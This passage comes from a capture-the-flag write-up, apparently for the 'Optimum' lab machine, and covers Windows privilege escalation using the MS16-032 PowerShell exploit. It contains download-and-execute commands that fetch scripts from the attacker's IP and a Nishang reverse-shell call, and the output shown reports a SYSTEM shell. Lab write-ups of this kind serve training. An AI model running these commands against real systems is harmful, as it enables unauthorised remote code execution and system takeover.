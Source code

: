 I had many issues trying to get this exploit to work, swithcing back and forth between 32/64-bits. 

In the end I ended up doing this outside of Metasploit. 

```
root@kali:~/htb/optimum# searchsploit ms16-032
-------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                |  Path
                                                                                                                                                              | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Microsoft Windows 7 < 10 / 2008 < 2012 (x86/x64) - Local Privilege Escalation (MS16-032) (C#)                                                                 | exploits/windows/local/39809.cs
Microsoft Windows 7 < 10 / 2008 < 2012 (x86/x64) - Secondary Logon Handle Privilege Escalation (MS16-032) (Metasploit)                                        | exploits/windows/local/40107.rb
Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64) - Local Privilege Escalation (MS16-032) (PowerShell)                                                      | exploits/windows/local/39719.ps1
Microsoft Windows 8.1/10 (x86) - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032)                                        | exploits/windows_x86/local/39574.cs
-------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

As seen above there are some standalone exploits that we could maybe get working.

I copy the powershell exploit and at the end of the file I add the following string:

```
Invoke-MS16032 -Command "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17:8000/Invoke-PowerShellTcp.ps1')"
```

I then copy a Nishang powershell reverseshell into the same directory and add the following at the bottom of the file:

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.17 -Port 1234
```

So with everything set up we need to start a webserver to serve the files and a netcat listener to catch the incomming shell.

Then we can call the exploit from the victim.

```
C:\Users\kostas\Desktop>powershell.exe -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17:8000/Invoke-MS16032.ps1')"                                                                
powershell.exe -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17:8000/Invoke-MS16032.ps1')"                                                                                        
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
```
